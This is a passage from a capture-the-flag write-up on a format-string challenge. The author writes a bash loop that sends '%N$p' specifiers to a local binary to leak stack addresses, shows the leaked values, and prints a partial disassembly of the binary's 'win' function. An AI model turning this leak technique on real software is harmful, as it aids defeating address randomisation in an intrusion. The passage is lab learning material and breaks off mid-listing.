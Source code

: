 None of this worked. When I entered any of the addresses I kept getting the: `Segfault Occurred, incorrect address.`.
I realised that the addresses starting with `0x7fff` were not where the program was located.

I tried to write a script to print out different pointers:

```bash
#!/bin/bash

for i in {1..128}; do
    leak=$(echo -e "%$i\$p" | ./vuln | grep -o '0x[0-9a-fA-F]\{3,\}400$')
    if [ -n "$leak" ]; then
        echo "value ($i): $leak"
    fi
done
```

this printed:

```
value (17): 0x9c36dda991ec400
value (23): 0x5640a8443400
value (42): 0x55bbb4a89400
```

This printed out the frist 128 pointers on the stack which is essetially what `%p%p%p..` did, then only selects the values that end with 400.
Those 2 smaller numbers ends with 400 so I have a suspision that it might be the address of the main function. I am going to try the 23rd and the 42th

`%23$p`,`%42$p`
both seem to loop back to the main.

```
000000000000136a <win>:
    136a:	f3 0f 1e fa          	endbr64
    136e:	55                   	push   %rbp
    136f:	48 89 e5             	mov    %rsp,%rbp
    1372:	48 83 ec 10          	sub    $0x10,%rsp
    1376:	48 8d 3d f6 0c 00 00 	lea    0xcf6(%rip),%rdi        # 2073 <_IO_stdin_used+0x73>
    137d:	e8 8e fd ff ff       	call   1110 <puts@plt>
    1382:	48 8d 35 f3 0c 00 00 	lea    0xcf3(%rip),%rsi        # 207c <_IO_stdin_used+0x7c>
    1389:	48 8d 3d ee 0c 00 00 	lea    0xcee(%rip),%rdi        # 207e <_IO_stdin_used+0x7e>
    1390:	e8 fb fd ff ff       	call   1190 <fopen@plt>
    1395:	48 89 45 f8          	mov    %rax,-0x8(%rbp)
    1399:	48 83 7d f8 00       	cmpq   $0x0,-0x8(%rbp)
    139e:	75 16                	jne    13b6 <win+0x4c>
    13a0:	48 8d 3d e0 0c 00 00 	lea    0xce0(%rip),%rdi        # 2087 <_IO_stdin_used+0x87>
    13a7:	e8 64 fd ff ff       	call   1110 <puts@plt>
    13ac:	bf 00 00 00 00       	mov    $0x0,%edi
    13b1:	e8 fa fd ff ff       	call   11b0 <exit@plt>
    13b6:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
    13ba:	48 89 c7             	mov    %rax,%rdi
    13bd:	e8 8e fd ff ff       	call   1150 <fgetc@plt>
    13c2:	88 45 f7             	mov    %al,-0x9(%rbp)
    13c5:	eb 1a                	jmp    13e1 <win+0x77>
    13c7:	0f be 45 f7          	movsbl -0x9(%rbp),%eax
    13cb:	89 c7                	mov    %eax,%edi
    13cd:	e8 2e fd ff ff       	call   1100 <putchar@plt>
    13d2:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
    13d6:	48 89 c7             	mov    %rax,%rdi
    13d9:	e8 72 fd ff ff       	call   1150 <fgetc@plt>
    13de:	88 45 f7             	mov    %al,-0x9(%rbp)
    13e1:	80 7d f7 ff          	cmpb   $0xff,-0x9(%rbp)
    13e5:	75 e0                	jne    13c7 <win+0x5d>
    13e7:	bf 0a 00 00 00       	mov    $0xa,%edi
    13ec:	e8 0f fd ff ff       	call   1100 <putchar@plt>
    13f1:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
```
